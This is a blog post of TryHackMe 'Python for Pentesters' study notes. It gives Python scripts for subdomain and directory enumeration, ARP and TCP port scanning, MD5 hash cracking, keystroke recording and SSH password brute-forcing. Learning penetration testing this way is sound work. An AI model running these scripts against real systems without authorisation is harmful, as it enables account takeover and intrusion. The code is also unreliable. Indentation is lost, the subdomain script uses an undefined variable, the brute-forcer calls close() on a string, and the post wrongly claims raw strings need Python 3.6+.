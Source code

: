 ```yaml
---
title: 'TryHackMe: Web Fundamentals (Supplements)'
date: 2022-02-01 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-02-01-tryhackme-web-fundamentals-supplements.html
author: 100007
---
```


# TryHackMe: Web Fundamentals (Supplements)

**author:** Nathan Acks  
**date:** 2022-02-01

# Inclusion

[See my Inclusion CTF write-up.](https://cardboard-iguana.com/notes/tryhackme-inclusion.html)

# Python for Pentesters

## Introduction

Two Python packages to bundle up a script as a Windows EXE: `pyinstaller` (which is the one everyone uses) and `Py2exe`.

## Subdomain Enumeration

```
#!/usr/bin/env python3

# The script will use a list of potential subdomains and
# prepends them to the domain name provided via a
# command-line argument.
#
# The script then tries to connect to the subdomains and
# assumes the ones that accept the connection exist.

import requests
import sys
sub_list = open("wordlist.txt").read()
subdoms = sub_list.splitlines()
for sub in subdoms:
sub_domain = f"http://{sub}.{sys.argv[1]}"
try:
requests.get(sub_domains)
except requests.ConnectionError:
pass
else:
print("Valid domain: ", sub_domains)
```

Note that the `f` above isn’t a mistake – rather it’s the use of an “f-string”, which allows the expansion of `{sys}` and `{sys.argv[1]}`. This requires Python 3.6+.

- [Quick Answer: How Do You Write An F String In Python](https://whatisanything.com/how-do-you-write-an-f-string-in-python/)

## Directory Enumeration

```
#!/usr/bin/env python3

# A simple directory enumeration tool.
#
# Expects a wordlist.txt in the working directory and
# appends it to a domain name provided via a command-line
# argument.

import requests
import sys
sub_list = open("wordlist.txt").read()
directories = sub_list.splitlines()
for dir in directories:
dir_enum = f"http://{sys.argv[1]}/{dir}/"
r = requests.get(dir_enum)
if r.status_code == 404:
pass
else:
print("Valid directory:", dir_enum)
```

This requires Python 3.6+.

## Network Scanner

```
#!/usr/bin/env python3

# Scans the given IP range on the given network using ARP
# rather than ICMP to help bypass potential alerting.

from scapy.all import *
interface = "eth0"
ip_range = "10.10.X.X/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"
packet = Ether(dst = broadcastMac) / ARP(pdst = ip_range)
ans, unans = srp(packet, timeout = 2, iface = interface, inter = 0.1)
for send, receive in ans:
print(receive.sprintf(r"%Ether.src% - %ARP.psrc%"))
```

As above, the `r` here isn’t a mistake – rather it specifies a “raw string”. This again requires Python 3.6+.

- [Quick Answer: How Do You Write An F String In Python](https://whatisanything.com/how-do-you-write-an-f-string-in-python/)

## Port Scanner

```
#!/usr/bin/env python3

# Look for open ports on the specified IP address.

import sys
import socket
ip = '192.168.1.6'
# Alternately: ip = socket.gethostbyname(sys.argv[1])

ports = range(1, 65535)
# Alternately: ports = {21, 22, 23, 53, 80, 135, 443, 445}

open_ports = []
def probe_port(ip, port, result = 1):
try:
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(0.5)
r = sock.connect_ex((ip, port))
if r == 0:
result = r
sock.close()
except Exception as e:
pass
return result
for port in ports:
sys.stdout.flush()
response = probe_port(ip, port)
if response == 0:
open_ports.append(port)
if open_ports:
print ("Open Ports are: ")
print (sorted(open_ports))
else:
print ("Looks like no ports are open :(")
```

The alternate port list above represents common ports that are used on internal corporate networks.

Note that this is making a full TCP handshake, so it’s going to be slooooooow. There’s no output in this script until the end, so if you want to check on progress you’ll need to try something like:

```
netstat | grep $IP
```

## File Downloader

```
#!/usr/bin/env python3

# Download a file with Python.

import requests
url = 'https://assets.tryhackme.com/img/THMlogo.png'
outfile = 'THMlogo.png'
r = requests.get(url, allow_redirects = True)
open(outfile, 'wb').write(r.content)
```

## Hash Cracker

```
#!/usr/bin/env python3

# Given a wordlist, crack a (MD5) hash.

import hashlib
wordlist_location = str(input('Enter wordlist file location: '))
hash_input = str(input('Enter hash to be cracked: '))
with open(wordlist_location, 'r') as file:
for line in file.readlines():
hash_ob = hashlib.md5(line.strip().encode())
# See hashlib.algorithms_available() for options
 # besides hashlib.md5().

hashed_pass = hash_ob.hexdigest()
if hashed_pass == hash_input:
print('Found cleartext password: ' + line.strip())
exit(0)
```

## Keyloggers

```
#!/usr/bin/env python3

# Records all keystrokes up until "Enter", then replays
# them. Note that the "keyboard" module does *not* seem
# to be available on most systems out-of-the-box, and
# will need to be installed using pip.

import keyboard
keys = keyboard.record(until = 'ENTER')
keyboard.play(keys)
```

## SSH Brute Forcing

```
#!/usr/bin/env python3

# Attempt to brute force an SSH login given a (cleartext)
# password list.

import paramiko
import sys
import os
target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))
# Alternately: Use sys.argv[] to specify some/all of these.

def ssh_connect(password, code = 0):
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
try:
ssh.connect(target, port = 22, username = username, password = password)
except paramiko.AuthenticationException:
code = 1
ssh.close()
return code
with open(password_file, 'r') as file:
for line in file.readlines():
password = line.strip()
try:
response = ssh_connect(password)
if response == 0:
print('password found: ' + password)
exit(0)
elif response == 1:
print('no luck')
except Exception as e:
print(e)
pass
password_file.close()
```

Note that, like the port scanner earlier, this is slooooooow… (At least it provides us with some feedback that it’s actually working though.)

